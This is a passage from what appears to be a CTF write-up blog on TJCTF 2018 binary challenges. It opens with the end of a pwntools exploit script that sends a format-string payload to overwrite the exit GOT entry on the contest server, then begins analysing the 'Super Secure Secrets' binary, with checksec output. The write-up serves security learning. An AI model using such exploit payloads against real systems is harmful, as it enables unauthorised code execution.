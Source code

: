 ~~~python
	r.recvuntil('>')
	r.sendline("p")

def overwrite_exit(r):
	p = p32(0x804a02c)
	p += '%34574c|%35$hn|'
	r.recvuntil('>')
	r.sendline("p")
	r.recvuntil('>')
	r.sendline(p)
	r.recvuntil('>')
	#gdb.attach(r)
	r.sendline("p")

if __name__ == "__main__":
	context.arch = 'i386'
	context.os   = 'linux'
	context.terminal = ["terminator", "-e"]

	#r = process('./secure')
	r = remote('problem1.tjctf.org', 8008)

	overwrite_exit(r)
 	#gdb.attach(r)
    r.interactive()
~~~

## Super Secure Secrets

This was the last binary exploit challenge in TJCTF. Like in the previous one we are not given source code, so we are going to use IDA to check how the program works. At first, IDA didn’t produce good results, but with a bit few manual changes we get the following:

![Super secure secrets secure_service]({static}/images/2018_8_13_SuperSecureSecrets.png){: .img-fluid .centerimage}

![Super secure secrets get_message]({static}/images/2018_8_13_SuperSecureSecrets_getMessage.png){: .img-fluid .centerimage}

![Super secure secrets set_message]({static}/images/2018_8_13_SuperSecureSecrets_setMessage.png){: .img-fluid .centerimage}

Run file on binary:

    super_secure: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=19eaa9a0ae168cebfc88191546db1f1da54328a4, not stripped

Checksec:

    RELRO          STACK CANARY     NX            PIE   

    Partial RELRO  Canary found     NX enabled    No PIE  

Like Secure Secrets it also has format string exploit in `get_message` function, but this time there is no function to call and get the flag. The second problem is that the program exits after getting a message first time, so we can’t do multiple reads/writes. All in all, this challenge was very similar to Config Console from PicoCTF 2017. We have to exploit it in multiple steps:
